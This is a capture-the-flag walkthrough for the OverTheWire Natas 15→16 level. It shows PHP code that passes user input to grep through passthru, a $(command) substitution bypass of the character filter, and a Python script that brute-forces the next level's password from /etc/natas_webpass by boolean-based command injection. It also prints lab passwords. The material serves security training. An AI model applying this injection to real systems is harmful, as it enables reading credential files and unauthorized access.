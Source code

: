 # Natas Level 15 --> Level 16

**Username:** natas16

**Password:** WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

**URL:**      http://natas16.natas.labs.overthewire.org

 
## Solution
* Click view sourcecode there you can see the filter used in the key-value, so we need to inject an OS command that bypasses this filter to get the password.
```
if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
```
* We can inject command inside double quotes with ***$(command)***, try to submit this
```
$(echo a)
```
* Now grep any word in the list to test like (Africans), and submit this 
```
Africans$(echo a)
```
* This (according to  Linux command) will result in 'Africansa' which isn't in the dictionary.txt so nothing will retrieve.
* According to the above idea we can submit 'Africans$(grep {char} /etc/natas_webpass/natas17)' which has two condition according to the char
> first -> return 'Africans(pass from natas17)' if this char in the file (return nothing in HTML)
> 
> second -> return 'Africans' if this char doesn't exist in the file (return 'Africans' in HTML as this word exist in dictionary.txt)
> 
> **We add ^ before the char to make sure that this character is the 1st character in the word**
* So we can perform brute-force to retrieve the password using boolean based injection using this python script:
```py
import requests
import string

chars = string.ascii_uppercase + string.ascii_lowercase + '0123456789'
base_url = 'http://natas16.natas.labs.overthewire.org/?needle='
password = ''

for i in range(32):
    cnt = 0
    while True:
        payload = password + chars[cnt]
        r = requests.get(base_url+f'Africans$(grep ^{payload} /etc/natas_webpass/natas17)', auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
        cnt += 1

        if not 'Africans' in r.text:
            password = payload
            print(password)
            break
```
> Execution Result
```py
8
8P
8Ps
8Ps3
8Ps3H
8Ps3H0
8Ps3H0G
8Ps3H0GW
8Ps3H0GWb
8Ps3H0GWbn
8Ps3H0GWbn5
8Ps3H0GWbn5r
8Ps3H0GWbn5rd
8Ps3H0GWbn5rd9
8Ps3H0GWbn5rd9S
8Ps3H0GWbn5rd9S7
8Ps3H0GWbn5rd9S7G
8Ps3H0GWbn5rd9S7Gm
8Ps3H0GWbn5rd9S7GmA
8Ps3H0GWbn5rd9S7GmAd
8Ps3H0GWbn5rd9S7GmAdg
8Ps3H0GWbn5rd9S7GmAdgQ
8Ps3H0GWbn5rd9S7GmAdgQN
8Ps3H0GWbn5rd9S7GmAdgQNd
8Ps3H0GWbn5rd9S7GmAdgQNdk
8Ps3H0GWbn5rd9S7GmAdgQNdkh
8Ps3H0GWbn5rd9S7GmAdgQNdkhP
8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```
** You got the password!!

> 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

